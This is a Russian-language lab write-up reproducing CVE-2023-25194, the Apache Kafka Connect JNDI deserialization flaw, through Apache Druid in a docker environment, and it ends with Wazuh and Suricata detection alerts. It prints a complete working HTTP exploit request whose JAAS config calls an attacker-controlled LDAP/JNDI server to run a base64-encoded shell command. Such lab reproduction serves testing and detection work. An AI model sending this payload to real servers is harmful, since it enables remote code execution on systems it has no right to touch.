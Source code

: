 # CVE-2023-25194

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2023-25194](https://nvd.nist.gov/vuln/detail/CVE-2023-25194)
* [https://www.opencve.io/cve/CVE-2023-25194](https://www.opencve.io/cve/CVE-2023-25194)

Apache Kafka — это платформа с открытым исходным кодом, которая используется для потоковой передачи и обработки данных в реальном времени.

В API Apache Kafka Connect обнаружена возможная уязвимость, для которой требуется доступ к рабочему процессу Kafka Connect и возможность создавать/изменять на нем коннекторы с помощью произвольной конфигурации SASL JAAS клиента Kafka и протокола безопасности на основе SASL, что стало возможным в кластерах Kafka Connect начиная с Apache Kafka Connect 2.3.0. Злоумышленник может вызвать неограниченную десериализацию ненадежных данных или уязвимость RCE, если в пути к классам есть гаджеты.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После успешного запуска по адресу http://ваш-ip:8888 будет доступна домашняя страница Apache Druid

<figure><img src="../../.gitbook/assets/cve-2023-25194(1).png" alt=""><figcaption></figcaption></figure>

Для начала запустите JNDI-сервер с помощью [JNDIExploit](https://github.com/vulhub/JNDIExploit)

<figure><img src="../../.gitbook/assets/cve-2023-25194(2).png" alt=""><figcaption></figcaption></figure>

Затем отправьте соответствующий запрос на уязвимый хост:

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: ваш-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://jndi-сервер-ip:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3MK\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

> Здесь "aWQgPiAvdG1wL3N1Y2Nlc3MK" - полезная нагрузка "id > /tmp/success", закодированная в base64
>
>

<figure><img src="../../.gitbook/assets/cve-2023-25194(3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/cve-2023-25194(4).png" alt=""><figcaption></figcaption></figure>

После отправки запроса на уязвимом хосте создался файл /tmp/success с выводом результата команды id&#x20;

<figure><img src="../../.gitbook/assets/cve-2023-25194(5).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

Suricata определила это как эксплуатацию уязвимости CVE-2021-44228 (Log4Shell)

<figure><img src="../../.gitbook/assets/cve-2023-25194(6).png" alt=""><figcaption></figcaption></figure>
